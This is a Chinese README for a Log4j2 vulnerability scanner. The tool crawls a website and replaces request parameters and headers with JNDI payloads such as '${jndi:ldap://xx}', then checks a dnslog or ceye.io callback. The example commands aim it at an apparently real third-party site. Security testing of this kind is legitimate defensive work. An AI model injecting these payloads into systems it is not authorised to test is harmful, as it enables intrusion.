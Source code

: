 # log4j2-scan
## 工具简介
log4j2-scan是一款利用浏览器爬虫爬取网站所有链接，并替换参数值为jndi形式，旨在遍历所有链接发现log4j2漏洞的工具。  


## 工作流程
1. 程序的工作流是利用rad爬取网站所有链接
    + 自动适配操作系统下载rad程序
2. 替换值为log4j2漏洞的payload
    + 更改请求中refer、agent值为payload
    + 更改GET型请求中'='号后的值为payload;
    + 更改POST型请求中data数据包中'=''、':'(json格式)后的值为payload
3. 将替换好的请求进行重放。
    + 如未定义payload, 脚本将自动从dnglog获取。
    + 如果是采用默认的dnslog为接收站点，那么将每重放十次检测一次dnslog。（考虑dnslog请求太多会被封禁）
    + 如自定义接收站点，将不进行检测。
     

## 运行参数
- 需要注意的是，必须安装有chrome才可以运行，不支持firefox等。 如chrome不是默认位置，须在rad_config.yml文件中指定chrome路径。
- payload值默认自动从dnslog获取，但是因平台问题无法访问时，程序会提示错误。用户可以自定义其他站点或ip，如http://ceye.io/
```
             _                _  _   _ ____      ____
    | |    ___   __ _| || | (_)___ \    / ___|  ___ __ _ _ __  _ __   ___ _ __
    | |   / _ \ / _` | || |_| | __) |___\___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
    | |__| (_) | (_| |__   _| |/ __/_____|__) | (_| (_| | | | | | | |  __/ |
    |_____\___/ \__, |  |_|_/ |_____|   |____/ \___\__,_|_| |_|_| |_|\___|_|
                |___/     |__/     by jshahjk@163.com. Illegal use is prohibited.

rad_windows_amd64.exe
usage: scan_with_rad.py [-h] [-u URL] [-f FILE] [-c CHROME_PATH] [-p PAYLOAD]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Check a single URL.
  -f FILE, --file FILE  file containing url.
  -c CHROME_PATH        Specify the chrome path.
  -p PAYLOAD, --payload PAYLOAD
                        Specify the payload like ${jndi:ldap://xx}.

```



运行命令：
```
python scan_with_rad.py -u www.hao24.com
python scan_with_rad.py -p mh7av.ceye.io -u www.xxxx.com
```




## 其他
之前计划使用的crawlergo，但是在尝试使用docker集成时发现crawlergo工作不正常。 所以crawlergo版本的暂时搁浅了，哪位大佬如能解决请赐教下。


